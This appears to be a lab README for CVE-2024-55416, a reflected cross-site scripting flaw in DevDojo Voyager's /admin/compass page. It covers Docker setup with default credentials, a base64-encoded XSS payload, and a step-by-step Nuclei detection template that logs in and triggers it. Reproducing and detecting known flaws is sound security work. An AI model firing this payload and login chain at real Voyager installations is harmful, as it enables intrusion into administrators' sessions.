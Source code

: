 # CVE-2024-55416: DevDojo Voyager <=1.8.0 - Reflected Cross-Site Scripting

## Description:
DevDojo Voyager through version 1.8.0 is vulnerable to reflected XSS via /admin/compass. By manipulating an authenticated user to click on a link, arbitrary Javascript can be executed.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2024-55416
- https://www.sonarsource.com/blog/the-tainted-voyage-uncovering-voyagers-vulnerabilities/

## Vulnerable Setup

- Execute the following commands to start a Laravel Voyager 1.8.0 server:

```
docker compose up -d
```

- After the server is started, browse to http://your-ip:8000 to see the Laravel Voyager admin panel. This server requires authentication.

## Default Login   

Username: admin@admin.com

Password: password

# Exploitation Steps

- Navigate to your URL http://your-ip:8000/admin

- Enter the Default Credentials (admin@admin.com/password) as shown below.

![image](https://github.com/user-attachments/assets/7935b0f8-1966-44c9-9d35-21a8aac72e41)

- Navigate to Tools -> Compass in the Dashboard.

![image](https://github.com/user-attachments/assets/dd38f215-48e5-4aa5-81c0-7cb711d5881f)

- Send a `GET` request to the `/admin/compass?del=` Delete endpoint with base64 encoded XSS Payload.

```bash
Payload: PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPi5sb2c=
```

![image](https://github.com/user-attachments/assets/96ed0bf2-ec25-4967-a257-416c955d62bc)

- Observe the XSS get triggered at `admin/compass?logs=true` Endpoint.

![image](https://github.com/user-attachments/assets/c6826159-f20d-4d00-8289-4793e9292481)

# Steps to Write Nuclei Template

**Variables Section**

```yaml
variables:
  username: "admin@admin.com"
  password: "password"
```

- Defines the login credentials (username and password) as variables, which can be reused in requests.

**First Request: Retrieve CSRF Token**

```yaml
  - raw:
      - |
        GET /admin/login HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: regex
        part: body
        internal: true
        name: csrf
        group: 1
        regex:
          - 'name="_token" value="([a-zA-Z0-9]+)"'
```

- Sends a GET request to /admin/login to retrieve the login page.
- Extracts the CSRF token (_token) from the response body using a regular expression.
- Stores the extracted value in an internal variable named csrf for later use.

**Second Request: Perform Login**

```yaml
  - raw:
      - |
        POST /admin/login HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        _token={{csrf}}&email={{username}}&password={{password}}&

    matchers:
      - type: dsl
        dsl:
          - "contains(body,'/admin</title>')"
          - "status_code == 302"
        condition: and
        internal: true
```

- Sends a POST request to `/admin/login` with:
  - Extracted `_token`
  - Username and password from the variables

- The matchers validate a successful login by checking:
  - The response body contains `</admin</title>` (indicating admin page access).
  - The response has a `302` status code, indicating a successful login and redirection.

**Third Request: Exploit Potential XSS**

```yaml
  - raw:
      - |
        GET /admin/compass?del=PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPi5sb2c= HTTP/1.1
        Host: {{Hostname}}

    redirects: false
    matchers:
      - type: dsl
        dsl:
          - "contains(location,'/admin/compass')"
          - "status_code == 302"
        condition: and
        internal: true
```

- Sends a `GET` request to `/admin/compass?del=PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPi5sb2c=` (Base64 payload that could trigger a stored XSS or file deletion).
- Checks if the server redirects to `/admin/compass` with a 302 status code, indicating the payload was processed.

**Fourth Request: Verify XSS**

```yaml
  - raw:
      - |
        GET /admin/compass?logs=true HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - "contains(body,'Successfully deleted log file: <img src=x onerror=alert(1)>.log')"
          - "status_code == 200"
        condition: and
```

- Sends a `GET` request to `/admin/compass?logs=true` to check if logs were successfully deleted.
- Looks for the phrase: "Successfully deleted log file: <img src=x onerror=alert(1)>.log" (indicating stored XSS via log deletion).
- Ensures the response status is `200` OK.

## Nuclei Template URL : [CVE-2024-55416](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-55416.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2024-55416.yaml -u http://172.30.0.2:8000 -vv
```

![image](https://github.com/user-attachments/assets/4a5873cc-520a-43a9-b97a-3c6082dccfe1)
